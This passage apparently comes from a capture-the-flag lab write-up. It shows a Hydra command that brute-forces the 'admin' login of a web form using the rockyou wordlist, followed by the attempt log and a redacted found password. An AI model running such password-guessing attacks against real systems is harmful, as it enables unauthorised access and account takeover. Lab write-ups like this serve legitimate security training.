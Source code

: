 The process of brute forcing is simple.  The tool is going to try to login using the known `admin` user in combination with a passwords contained in a password directory (**rockyou.txt** in this case).

``` shell
 ❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.235.217 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-13 23:27:16
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.235.217:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)

[Snip!]

[ATTEMPT] target 10.10.235.217 - login "admin" - pass "444444" - 514 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "sharon" - 515 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "bonnie" - 516 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "spider" - 517 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "iverson" - 518 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "andrei" - 519 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "justine" - 520 of 14344399 [child 1] (0/0)
[80][http-post-form] host: 10.10.235.217   login: admin   password: **[REDACTED]**
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-13 23:28:14


```

Bingo! The valid credentials are brute-forced.

> [!DONE]
> User: admin
>
> Password: **[REDACTED]**

---